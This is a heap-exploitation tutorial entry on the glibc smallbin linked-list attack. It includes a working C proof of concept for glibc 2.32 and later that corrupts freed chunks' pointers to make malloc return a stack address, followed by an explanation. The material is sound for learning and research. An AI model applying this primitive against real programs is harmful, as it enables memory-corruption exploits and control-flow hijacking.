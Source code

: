 <details>
<summary><strong>Description</strong></summary>
<p>

similar to the unsorted, and large bin linked list primitive **but better**...

we will be trying to get malloc to allocate a ptr on the stack. This will be done via leveraging the smallbin linked list...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/bin_overviews/small_bins.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/small_bin/linked_list/readme.md
> i modified it a little bit (more general?) (but its worth read)

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *tcache_chunks[7], x[0x30], *reallocate_chunk, *target;

    // target must be aligned 0x10 (explain later)
    for(int i = 0x10; i < 0x20; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            target = &x[i];
            break;
        }
    }
    printf("target: %p\n", target);

    // allocate chunk (must be in smallbin range in order to work)
    for(int i = 0; i < 7; i++) tcache_chunks[i] = malloc(0x300);
    chunk0 = malloc(0x300);
    malloc(0x18); // padding chunk to prevent consolidation
    chunk1 = malloc(0x300);
    malloc(0x18); // padding chunk to prevent consolidation

    for(int i = 0; i < 7; i++) free(tcache_chunks[i]); // fill up the corresponding tcache

    free(chunk0); // insert our two (soon to be small bin) chunks into the unsorted bin
    free(chunk1);

    malloc(0x300 + 0x10); // move the two unsorted bin chunks over to the small bin

    for(int i = 0; i < 7; i++) tcache_chunks[i] = malloc(0x300); // empty the corresponding tcache bin

    // make our "fake" small bin chunk
    // for this, we only need to set the `prev_size` (setting it to `0x00`), and the chunk_size
    target[0] = 0x0000000000000000; // 
    target[1] = 0x0000000000000311;

    // Then we go ahead, and link this chunk against the two real small bin chunks
    target[2] = ((long)chunk0 - 0x10); // fwd
    target[3] = ((long)chunk1 - 0x10); // bk

    /* now in other writeups here where we do similar things with the unsorted bin / large bin
    you will see us have to make a chunk header right after this chunk because of the 'unlink_chunk' function
    we don't have to worry about that here */

    // link the two real small bin chunks against our fake small bin chunk
    /*VULNERABILITY*/
    chunk0[1] = target; // chunk0 bk
    chunk1[0] = target; // chunk1 fwd
    /*VULNERABILITY*/
    // [smallbin 0x310]: chunk1 -> target -> chunk0

    malloc(0x300); // reallocate chunk0 from small bin, trigger smallbin dumping
    // [tcache 0x310]: chunk1 -> target

    malloc(0x300); // reallocate chunk1 from tcache

    reallocate_chunk = malloc(0x300); // allocate our fake chunk from tcache

    printf("reallocate_chunk: %p\n", reallocate_chunk);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

this will be similar to the unsorted, and large bin linked list writeups. We will make a fake chunk where we want to allocate, assign it a prev_size, chunk_size, and fwd/bk pointer. We will also overwrite the fwd/bk pointers of the chunks we are linking against, to point to this chunk (either the fwd/bk of each).

this differs fron the unsorted/large bin, in two ways. First off, due to the overlap of the tcache bin sizes, whenever we free a chunk that is to be inserted into the small bin, the corresponding tcache must be full. In addition to that, when we want to allocate a small bin chunk, the corresponding tcache bin must be empty.

the second way is beneficial to us. With the unsorted, and large bins, the chunk being allocated has a check (sometimes executed in the unlink_chunk function). That check is basically, is the prev_size of the next chunk, equal to the size of the current chunk? Of course for making a fake chunk, this could prove a bit hard to pull off. **We don't have to worry about that with the small bin**.

</p>
</details>

<details>
<summary><strong>Comment</strong></summary>
<p>

the smallbin itself doesnt have address aligned 0x10 check, but in higher glibc version (`2.31+`), we need to prepare fake chunk size and aligned address to prevent error when the smallbin tcache dumping occur...

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> you can modify above poc without the target address aligned 0x10 restriction...

</p>
</details>